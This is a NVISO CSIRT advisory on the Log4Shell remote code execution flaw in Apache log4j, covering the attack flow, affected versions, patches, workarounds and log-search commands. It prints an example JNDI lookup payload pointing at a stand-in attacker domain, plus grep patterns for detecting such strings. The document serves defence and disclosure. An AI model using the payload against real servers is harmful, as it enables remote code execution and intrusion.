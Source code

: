 ## NVISO CSIRT ADVISORY
**Last update: 2021-12-15**


## SUMMARY
In this advisory we provide an overview of the recently discovered vulnerability in Apache log4j and how attackers can abuse it. We will update this blog post as more information is released. 

A high severity vulnerability in Apache log4j was disclosed publicly on 9 December 2021. This vulnerability was initially discovered by Chen Zhaojun of the Alibaba Cloud Security Team.

Log4j is an open-source Java logging library that is widely used in many applications and is present as a dependency in many services. This includes enterprise applications and numerous cloud services. 
 
This vulnerability allows for unauthenticated remote code execution using the following flow:
1.	Attacker sends data to the server (via any protocol). 
2.	The server (with log4j enabled) logs the data in the request, containing the malicious payload: `${jndi:ldap//attackerowneddomain.com/a}`
3.	The log4j vulnerability is triggered by this payload and the server makes a request to the attackerowneddomain.com via JNDI (Java Naming and Directory Interface). This also works using RMI (see link to SANS ISC post below)
5.	The server owned by the attacker responds to the request with a path to a remote (malicious) Java class file. This file is then injected in in the server process
6.	This malicious Java class file upon execution can trigger arbitrary code execution

## WHY THIS MATTERS
Given how widespread this library is used and how easy the exploit is, the impact of this vulnerability can be seen as very severe. 

On 10 December 2021 a PoC (Proof of Concept) was released for this vulnerability (https://github.com/tangxiaofeng7/apache-log4j-poc). Currently extensive scanning is being performed and a number of active exploitation attempts have been observed as well. In a first stage this vulnerability has been seen being used to deploy cryptocurrency mining software, this vulnerability will however be abused to gain an foothold in your network that can be used by a variety of attacks, now, or at a later stage (e.g. ransomware attacks, data theft, etc.). 

NCSC-NL has provided a list of vulnerable and non-vulnerable software to the log4j exploit, which can be found here: https://github.com/NCSC-NL/log4shell/tree/main/software

## RECOMMENDED ACTIONS
Critical risk vulnerabilities should be fully patched as soon as possible. 

Given the ease of exploitation it is strongly suggested to apply the patches for internet facing software immediately. Applying the patches to your internal software is recommended to be done at your earliest convenience.


## AFFECTED PRODUCTS
All Apache log4j versions from 2.0 up to and including 2.14.1 

All frameworks that use these versions (e.g. Apache Structs2, Apache Solr, Apache Druid, Apache Flink, etc.)


## AVAILABLE WORKAROUNDS
It is important to note that as part of the exploitation of this vulnerability, the vulnerable server must make an outbound request to the attacker owned server. Limiting outbound internet connectivity from web servers would prevent the full exploit chain. 

Sanitize log data before processing into Log4j

Specific mitigations:
Mitigations have changed given latest guidence from The Apache Software Foundation.
https://logging.apache.org/log4j/2.x/security.html

TL;DR:
>
>Log4j 1.x mitigation: Log4j 1.x does not have Lookups so the risk is lower. Applications using Log4j 1.x are only vulnerable to this attack when they use JNDI in their configuration. A separate CVE (CVE-2021-4104) has been filed for this vulnerability. To mitigate: audit your logging configuration to ensure it has no JMSAppender configured. Log4j 1.x configurations without JMSAppender are not impacted by this vulnerability.
>
>Log4j 2.x mitigation: Implement one of the mitigation techniques below.
>* Java 8 (or later) users should upgrade to release 2.16.0.
>* Users requiring Java 7 should upgrade to release 2.12.2 when it becomes available (work in progress, expected to be available soon).
>* Otherwise, remove the JndiLookup class from the classpath: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
>   Note that only the log4j-core JAR file is impacted by this vulnerability. Applications using only the log4j-api JAR file without the log4j-core JAR file are not impacted by this vulnerabili


<s>
- For version >=2.10: set `log4j2.formatMsgNoLookups` to `true`
- For releases from 2.0 to 2.10.0: you may want to remove the LDAP class from log4j completely by issuing the following command: `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`
- For certain JVM Versions, it is possible to set `com.sun.jndi.rmi.object.trustURLCodebase` and `com.sun.jndi.cosnaming.object.trustURLCodebase` to false to mitigate the vulnerability. Some JVM versions already have this as default setting
</s>

## AVAILABLE PATCHES
On December 10, 2021, version 2.15.0 RC2 was released. This patch was not complete. It was vulnerable to other attacks. See CVE-2021-45046.

On December 13, 2021, a new version (2.16.0) of log4j was released, disabling JNDI by default: https://logging.apache.org/log4j/2.x/changes-report.html#a2.16.0 

## DETECTIONS
- Review logs generated for Log4j processing and focus on JNDI and RMI entries
- Review outbound connections of system running Log4j
- YARA rule by Florian Roth: https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
- Log4shell detector by Florian Roth: https://github.com/Neo23x0/log4shell-detector
- Scan your servers for potentially vulnerable libraries based on the hashes provided by Mubix: https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes/
- Guidance for detection and hunting by Microsoft: https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/
- Fenrir 0.9 Log4shell edition by Florian Roth - Quick scanner for a number of quick checks: https://github.com/Neo23x0/Fenrir/releases/tag/v0.9.0

Search logs using following commands (the above mentioned Log4shell detector will give you a better view):

`sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log`

`sudo find /var/log -name \*.gz -print0 | xargs -0 zgrep -E -i '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+'`



## CVSS SCORE AND CVE ID
|CVE ID	|Severity	|CVSSv3 Score|
|-------|-----------|------------|
|CVE-2021-44228	|Critical	|X	|X	|

Note: this vulnerability is also known as log4shell
NIST: https://nvd.nist.gov/vuln/detail/CVE-2021-44228

MITRE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228



## MORE INFORMATION
More information and detailed explanations on the working of this vulnerability can be found on the links below.
- Log4Shell: RCE 0-day exploit found in log4j, a popular Java logging package: https://www.lunasec.io/docs/blog/log4j-zero-day/
- Swiss Government CERT: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/
- SANS ISC - RCE in log4j, Log4Shell, or how things can get bad quickly: https://isc.sans.edu/forums/diary/RCE+in+log4j+Log4Shell+or+how+things+can+get+bad+quickly/28120/
- Greynoise is tracking the RCE attempts: https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22
- CIRCL.LU TR-65 - Vulnerabilities and Exploitation of Log4j (Remote code injection in Log4j): https://www.circl.lu/pub/tr-65/
- Security advisories from different vendors linked to CVE-2021-44228 (do note that not all vendors listed here are vulnerable, the link can also indicate a general statement): https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
- Advisory by the Swiss Government CERT: https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/
- Guidance for preventing, detecting, and hunting for CVE-2021-44228 Log4j 2 exploitation by Microsoft: https://www.microsoft.com/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/
- NCSC-NL Log4j overview related software: https://github.com/NCSC-NL/log4shell/tree/main/software
- CERT-BE: https://www.cert.be/nl/warning-active-exploitation-0-day-rce-log4j
